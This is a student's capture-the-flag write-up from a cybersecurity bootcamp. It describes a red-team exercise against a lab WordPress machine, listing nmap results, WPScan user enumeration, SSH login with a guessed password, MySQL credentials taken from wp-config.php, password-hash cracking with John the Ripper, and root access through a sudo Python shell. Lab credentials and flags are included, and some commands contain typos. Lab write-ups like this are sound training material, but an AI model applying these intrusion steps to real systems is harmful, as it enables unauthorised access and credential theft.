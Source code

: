 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`nmap 192.168.1.0/24`

![full nmap 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%201.PNG)
![full nmap 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%202.PNG)

## Target 1

`nmap 192.168.1.110`



This scan identifies the services below as potential points of entry:
- Target 1
  - Exposed Services
  * Open Port 22/TCP - SSH
  * Open Port 80/TCP - HTTP
  * Open Port 111/TCP - rpcbind
  * Open Port 139/TCP - netbios-ssn
  * Open Port 445/TCP - microsoft-ds

![nmap target 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/nmap%20target%201.PNG)

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress Site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress Database)
  - Misconfiguration of User Privileges/Privilege Escalation

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -enumerate u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag 1

![wordpress 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%201.PNG)

![wordpress 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%202.PNG)

**Flag 1**

![Flag1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%201.png)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag 2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`

**Flag 2**
![flag2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%202.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.

![user & pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/pass%20%26%20user.PNG)

![enter pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/enter%20pass.PNG)

![sql 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql.PNG)

![sql 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql%20hashes.PNG)

**Flag 3**
![Flag3](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag.

![john hashes](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/john%20hashes.PNG)

**Flag 4**
![flag4](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)